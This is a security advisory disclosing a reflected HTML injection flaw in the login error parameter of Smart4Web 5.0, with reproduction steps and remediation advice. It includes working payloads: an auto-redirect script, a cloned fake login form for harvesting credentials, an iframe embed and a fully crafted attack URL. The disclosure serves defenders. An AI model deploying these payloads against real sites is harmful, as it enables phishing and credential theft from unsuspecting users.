



# Smart4Web 5.0 HTML Injection Reflected

### Report Overview

- **Title**: Smart4Web 5.0 HTML Injection Reflected
- **Software**: Smart4Web
- **Version**: 5.0
- **Vulnerability**: HTML Injection Reflected
- **Vulnerable Component**: Login Form Error Parameter via URL

### Description

Smart4Web version 5.0 has been identified to suffer from an unauthenticated reflected HTML injection vulnerability. This vulnerability occurs due to insufficient validation of user input in the error parameter of the login form(in URL). As a result, potentially dangerous input from users can be accepted and embedded in the HTML, posing significant security risks.

### Technical Details

**Vulnerability Type**: Reflected HTML Injection

**Vulnerable Component**: Login Form Error Parameter via URL

### Steps to Reproduce

1. Navigate to the Smart4Web application login page (`/smart4web/`) and attempt to log in with invalid credentials to trigger an error. (screenshot 1.png)
2. Inject an HTML/JavaScript payload into the URL parameter immediately following `error=`. (screenshot 2.png)
3. Upon visiting the crafted URL, the injected content is rendered in the HTML response. (screenshot 3.png and screenshot 4.png)

### Examples of Malicious Payloads

**Redirection Payload**:

```php
<script>
        window.onload = function() {
            const url = 'https://google.com';
            const a = document.createElement('a');
            a.href = url;
            a.download = 'image.png';
            document.body.appendChild(a);
            a.click();
            document.body.removeChild(a);
        }
    </script>
```

**Fake Login Form**:

```php
<div style='scale:1.2; position:relative; margin-left: -47px; margin-top: 118px;'>
    <div class='info'>
        <div style='position:absolute; background-color:white; width:250px; height:150px; position:relative; margin:auto;'>
            <div class='fieldset-tl'></div>
            <div class='fieldset-l'></div>
            <div class='fieldset-bl'></div>
            <div class='fieldset-t'></div>
            <div class='fieldset-b'></div>
            <div class='fieldset-tr'></div>
            <div class='fieldset-r'></div>
            <div class='fieldset-br'></div>
            <div class='fieldset-legend' id='itemLegend' style='background-color:white;'>Přihlásit jako</div>
            <div class='fieldset-body'>
                <form id="loginForm" onsubmit="return false;">
                    <table align='center'>
                        <tr style='height:24px'>
                            <td colspan='2'>
                                <table cellpadding='0' cellspacing='0'>
                                    <tr>
                                        <td style='width:25px;'></td>
                                        <td id="errorMessage" style='color:red; font-weight:normal;'>
                                            <span style='position:relative;top:-1px'>
                                                Nesprávné jméno nebo heslo
                                            </span>
                                        </td>
                                    </tr>
                                </table>
                            </td>
                        </tr>

                        <tr>
                            <td style='width:100px; color:black; font-weight:normal;'>Uživatel</td>
                            <td><input type="text" id='edUsername' name="username" style='width:112px;' ></td>
                        </tr>

                        <tr>
                            <td style='color:black; font-weight:normal;'>Heslo</td>
                            <td><input type="password" id='edPasswd' name="password" style='width:112px;'></td>
                        </tr>           
                        <tr>
                            <td style='color:black; font-weight:normal;'>Jazyk</td>
                            <td>
                                <select name="lng" size=1>
                                    <option value="CZE" >Česky</option>
                                    <option value="ENG" >English</option>
                                </select>
                            </td>
                        </tr>

                        <tr>
                            <td colspan='2' style='text-align:center;'>
                                <button type='submit' name='login' style='margin-left: 45px;'>Přihlásit</button>
                            </td>
                        </tr>
                    </table>
                </form>
            </div>
        </div>
    </div>
</div>
```

**Embedding a Website**:

```php
<iframe width="1000" height="800" src="[https://linux.com](https://linux.com/)" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
```

**Example of Full URL with Payload**:

```php
*https://hosteddomain.xyz*/smart4web/index.jsp?error=<iframe width="1000" height="800" src="[https://linux.com](https://linux.com/)" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
```

### Impact

This vulnerability allows an attacker to:

- Redirect users to malicious websites.
- Display a fake login form to capture user credentials.
- Perform clickjacking attacks by embedding external websites.

### Recommendations

To mitigate this vulnerability, we recommend implementing the following security measures:

1. **Input Validation and Sanitization**:
    - Implement server-side validation and sanitization for the `error` parameter.
    - Reject or escape potentially dangerous characters (e.g., `<`, `>`, `"`, `'`, `&`).
2. **Content Security Policy (CSP)**:
    - Implement a strong CSP to restrict the execution of inline scripts and loading of external resources.
3. **Output Encoding**:
    - Ensure all user input reflected in the HTML response is properly encoded to prevent the execution of injected scripts.
4. **Security Libraries**:
    - Utilize security libraries and frameworks that provide built-in protection against such vulnerabilities.

Screenshot 1



Screenshot 2



Screenshot 3


Screenshot 4


